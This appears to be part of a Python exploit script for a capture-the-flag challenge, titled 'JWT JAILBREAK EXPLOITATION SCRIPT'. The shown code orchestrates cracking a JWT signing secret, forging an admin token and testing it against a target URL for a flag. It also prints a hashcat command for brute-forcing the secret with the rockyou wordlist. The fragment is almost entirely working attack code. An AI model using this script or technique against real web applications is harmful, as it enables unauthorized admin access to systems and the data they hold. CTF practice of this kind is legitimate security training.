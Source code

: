 ```python
    def test_admin_access(self, admin_token: str) -> bool:
        """Test if admin token grants access"""
        print("🧪 Testing admin access...")
        
        try:
            cookies = {'token': admin_token}
            response = requests.get(self.target_url, cookies=cookies, timeout=10)
            
            if response.status_code == 200:
                print(f"✅ SUCCESS! Admin access granted!")
                
                # Look for flag
                if "flag" in response.text.lower() or "FLAG" in response.text:
                    print(f"\n🚩 FLAG FOUND IN RESPONSE!")
                    return True
                else:
                    print("⚠️  Access granted but flag not immediately visible")
                    return True
            else:
                print(f"❌ Access denied. Status code: {response.status_code}")
                return False
                
        except Exception as e:
            print(f"❌ Error testing access: {e}")
            return False
    
    def exploit(self) -> bool:
        """Run complete exploitation"""
        print("=" * 60)
        print("JWT JAILBREAK EXPLOITATION SCRIPT")
        print("=" * 60)
        print()
        
        # Step 1: Decode original token
        print("📋 Original Token Payload:")
        payload = self.decode_token()
        print(f"   {payload}\n")
        
        # Step 2: Crack secret
        secret = self.crack_secret()
        if not secret:
            print("\n💡 Try using hashcat for more extensive cracking:")
            print(f"   hashcat -a 0 -m 16500 jwt.txt /usr/share/wordlists/rockyou.txt")
            return False
        
        # Step 3: Forge admin token
        admin_token = self.forge_admin_token()
        if not admin_token:
            return False
        
        # Step 4: Test access (optional)
        if self.target_url:
            self.test_admin_access(admin_token)
        
        print("\n📋 EXPLOITATION COMPLETE!")
        print("\nNext steps:")
        print("1. Copy the forged admin token above")
        print("2. Replace your JWT cookie/token in browser")
        print("3. Navigate to /admin/dashboard")
        print("4. Capture the flag! 🚩")
        
        return True

```